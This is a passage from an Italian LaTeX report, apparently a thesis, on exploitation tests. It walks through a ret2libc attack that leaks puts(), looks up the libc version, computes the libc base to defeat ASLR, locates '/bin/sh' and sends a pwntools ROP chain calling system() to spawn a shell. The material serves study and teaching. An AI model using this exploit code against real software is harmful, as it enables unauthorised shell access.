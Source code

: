 Dopo aver recuperato questi due indirizzi, com'è stato spiegato \hyperref[subsec:Attack_3.3]{nella sezione dedicata a questa tecnica d'attacco}, tali informazioni sono state sfruttate per recuperare dal \href{https://libc.blukat.me/}{database online delle libc} la versione di quella collegata all'applicazione.\\
Una volta effettuato il download del file \textbf{ELF} della libreria dal database, l'obbiettivo coincideva con quello del \hyperref[subsec:Test_3-1]{primo test della serie}, ossia recuperare l'indirizzo di base in memoria per bypassare la difesa \textbf{ASLR} ed infine utilizzare qualsiasi funzionalità disponibile al suo interno.
A tale scopo venne utilizzato l'indirizzo effettivo di \textbf{puts}() ottenuto precedentemente, a cui fu sottratto l'offset statico di tale funzione presente nel file della \textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Caricamento del file \textbf{ELF} della \textbf{libc} e calcolo-settaggio dell'indirizzo base di essa in memoria.}, style =Python]
libc = ELF("./libc6_2.31-0ubuntu9.2_amd64.so")

libc.address = puts_lib_idx - libc.symbols["puts"]
\end{lstlisting}
Dopo che ogni offset statico dei simboli all'interno della libreria era stato sostituito con il corrispettivo indirizzo effettivo in memoria, a differenza di quanto fatto in tutti i precedenti test, si cercò l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}'', in quanto sempre presente all'interno della
\textbf{libc}:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Ottenimento indirizzo della stringa ``\textbf{/bin/sh\textbackslash00}'' presente in \textbf{libc}.}, style =Python]
binsh = next(libc.search(b"/bin/sh\x00"))             # restituisce idx a "/bin/sh\x00"
\end{lstlisting}
Come ultimo passo non rimaneva che la creazione della \textbf{ROP chain} finale. Quest'ultima sequenza poteva essere composta in due differenti metodi, i quali permettono la realizzazione del medesimo risultato. La prima prevedeva una chiamata alla funzione \textbf{system} della libreria, passando ad essa come unico argomento l'indirizzo alla stringa ``\textbf{/bin/sh\textbackslash00}''
ottenuto in precedenza:
\begin{lstlisting}[language=Python, label=gadgets add, caption={Creazione e invio della \textbf{ROP chain} effettuando la chiamata a \textbf{system}().}, style =Python]
rop = ROP([elf,libc])                     # creazione oggetto rop
rop.call("system",[binsh])                # chiama system(idx "/bin/sh\x00")

payload = dict()
payload[offset] = rop
p.sendline(fit(payload))                  # invio ROP chain
\end{lstlisting}

